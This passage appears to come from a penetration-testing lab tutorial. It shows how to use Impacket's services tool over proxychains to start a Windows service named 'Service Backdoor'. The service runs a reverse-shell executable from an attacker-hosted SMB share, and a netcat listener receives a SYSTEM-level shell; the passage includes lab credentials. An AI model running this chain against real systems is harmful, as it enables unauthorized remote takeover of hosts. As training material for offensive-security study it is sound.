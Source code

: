We can view the configuration of the custom command created using `config -name <serviceName>`:

```shell
proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 config -name 'Service Backdoor'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Querying service config for Service Backdoor
TYPE              : 16 -  SERVICE_WIN32_OWN_PROCESS
START_TYPE        :  2 -  AUTO START
ERROR_CONTROL     :  0 -  IGNORE
BINARY_PATH_NAME  : \\10.10.14.207\share\rshell-9001.exe
LOAD_ORDER_GROUP  :
TAG               : 0
DISPLAY_NAME      : Service Backdoor
DEPENDENCIES      : /
SERVICE_START_NAME: LocalSystem

```

Before we run the service, we must ensure that the SMB server has the file that will be executed:

```shell
sudo smbserver.py share -smb2support ./
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

We must start our `Netcat` listener:

```shell
nc -lnvp 9001
Listening on 0.0.0.0 9001

```

We can now start the service with `start -name <serviceName>`:

```shell
proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name 'Service Backdoor'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Starting service Service Backdoor

```

Looking at our attack host, we have successfully established a reverse shell:

```shell
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.207] from (UNKNOWN) [10.129.229.244] 62855
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>